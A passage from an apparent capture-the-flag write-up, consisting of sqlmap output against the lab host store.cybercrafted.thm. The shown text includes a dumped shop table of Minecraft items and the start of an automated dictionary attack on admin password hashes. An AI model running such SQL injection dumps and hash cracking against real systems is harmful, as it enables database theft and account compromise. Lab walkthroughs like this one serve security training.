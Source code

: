 ```bash
| 101 | 10$  | Netherite Chestplate   | 1x     |
| 102 | 4$   | Netherite Helmet       | 1x     |
| 103 | 6    | Netherite Hoe          | 1x     |
| 104 | 8$   | Netherite Leggings     | 1x     |
| 105 | 5$   | Netherite Pickaxe      | 1x     |
| 106 | 5$   | Netherite Shovel       | 1x     |
| 107 | 5$   | Netherite Sword        | 1x     |
| 108 | 1$   | Saddle                 | 1x     |
| 109 | 0.5$ | Shears                 | 1x     |
| 110 | 0.5$ | Shield                 | 1x     |
| 111 | 1$   | Sugar                  | 64x    |
| 112 | 4$   | Suspicious Stew        | 1x     |
| 113 | 4$   | Tipped Arrow           | 16x    |
| 114 | 5$   | Totem of Undying       | 1x     |
| 115 | 0.2$ | Tropical Fish          | 1x     |
| 116 | 4$   | Turtle Shell           | 16x    |
| 117 | 2$   | Wheat                  | 64x    |
| 118 | 2$   | Amethyst Shard         | 16x    |
| 119 | 5$   | Blaze Powder           | 64x    |
| 120 | 5$   | Blaze Rod              | 32x    |
| 121 | 1$   | Clock                  | 1x     |
| 122 | 3$   | Coal                   | 64x    |
| 123 | 5$   | Copper Ingot           | 64x    |
| 124 | 20$  | Diamond                | 64x    |
| 125 | 20$  | Emerald                | 64x    |
| 126 | 2$   | Flint                  | 64x    |
| 127 | 10$  | Ghast Tear             | 64x    |
| 128 | 5$   | Glowstone Dust         | 64x    |
| 129 | 5$   | Gunpowder              | 64x    |
| 130 | 4$   | Heart of the Sea       | 1x     |
| 131 | 10$  | Iron Ingot             | 64x    |
| 132 | 2$   | Lapis Lazuli           | 64x    |
| 133 | 2$   | Nautilus Shell         | 16x    |
| 134 | 1$   | Nether Brick           | 64x    |
| 135 | 8$   | Nether Quartz          | 64x    |
| 136 | 10$  | Nether Star            | 1x     |
| 137 | 500$ | Netherite Ingot        | 64x    |
| 138 | 50$  | Netherite Scrap        | 64x    |
| 139 | 5$   | Raw Gold               | 64x    |
| 140 | 5$   | Raw Iron               | 64x    |
| 141 | 2$   | Shulker Shell          | 16x    |
| 142 | 1$   | Slimeball              | 16x    |
+-----+------+------------------------+--------+

[20:21:46] [INFO] table 'webapp.stock' dumped to CSV file '/root/.local/share/sqlmap/output/store.cybercrafted.thm/dump/webapp/stock.csv'
[20:21:46] [INFO] fetching columns for table 'admin' in database 'webapp'
[20:21:46] [INFO] fetching entries for table 'admin' in database 'webapp'
[20:21:47] [INFO] recognized possible password hashes in column 'hash'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[20:21:47] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[20:21:47] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[20:21:47] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[20:21:47] [INFO] starting 2 processes 
```